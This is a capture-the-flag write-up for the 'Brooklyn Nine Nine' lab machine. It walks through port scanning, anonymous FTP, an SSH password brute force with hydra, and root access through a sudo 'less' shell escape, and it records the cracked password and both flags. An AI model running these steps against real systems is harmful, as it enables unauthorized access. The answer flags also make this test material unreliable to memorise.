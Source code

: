 # Brooklyn Nine Nine

--------------------------------------------------------------------

**TOOLS USED**: nmap, dirb, hydra

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.10.135

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

Run port scan
```
nmap -sC -sV 10.10.10.135
```
![1.1](./imgs/1.1.png)


```
dirb http://10.10.10.135
```

![1.2](./imgs/1.2.png)

```
ftp anonymous@10.10.10.135
get note_to_jake.txt
```

![1.3](./imgs/1.3.png)

Jake has a weak password

**USER**: jake

### 2. BRUTE FORCE

Use hydra to brute force shh login
```
hydra -l jake -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.10.135
```

![2.1](./imgs/2.1.png)

**PASSWORD**: 987654321

```
ssh jake@10.10.10.135
cd /home/holt
cat user.txt
```

![2.2](./imgs/2.2.png)

**USER FLAG**: ee11cbb19052e40b07aac0ca060c23ee

### 3. PRIVILEGE ESCALATION

```
sudo -l
```

[3.1](./imgs/3.1.png)

Jake can run /usr/bin/less as root

From https://gtfobins.github.io/gtfobins/less/#sudo
```
sudo less /etc/profile
!/bin/sh
```
![3.2](./imgs/3.2.png)

**ROOT FLAG**: 63a9f0ea7bb98050796b649e85481845